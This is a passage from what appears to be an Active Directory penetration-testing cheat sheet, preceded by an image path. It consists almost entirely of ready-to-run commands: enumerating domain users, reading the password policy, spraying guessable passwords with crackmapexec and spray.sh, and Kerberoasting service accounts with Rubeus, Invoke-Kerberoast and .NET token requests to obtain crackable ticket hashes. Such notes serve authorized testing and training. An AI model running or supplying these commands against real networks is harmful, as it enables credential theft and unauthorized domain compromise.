 ```
Get-DomainUser | Select-Object -expandproperty samaccountname
```

#### Retrieve the current password policy
```
crackmapexec smb -u <USER> -p <PASSWORD> --pass-pol
```

```
Get-DomainPolicyData
```

#### Spray easy guessable passwords against all these users
- Make sure to keep enough login attempts for the user!
- https://github.com/Greenwolf/Spray
```
crackmapexec smb <DC IP> -u <USER FILE> -p <PASSWORD FILE> --continue-on-success
```

```
spray.sh -smb <DC IP> <USER FILE> <PASSWORD FILE> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```

## Kerberoast
- https://github.com/GhostPack/Rubeus
#### Find user accounts used as service accounts
```
Get-DomainUser -SPN
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
```

```
Rubeus.exe kerberoast /stats
```

```
.\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
```

#### Reguest a TGS
```
Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /domain <DOMAIN> /outfile:kerberoast_hashes.txt
Rubeus.exe kerberoast /rc4opsec /outfile:kerberoast_hashes.txt
```

```
Invoke-Kerberoast -Outputformat hashcat
```

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>@<FQDN>"
```
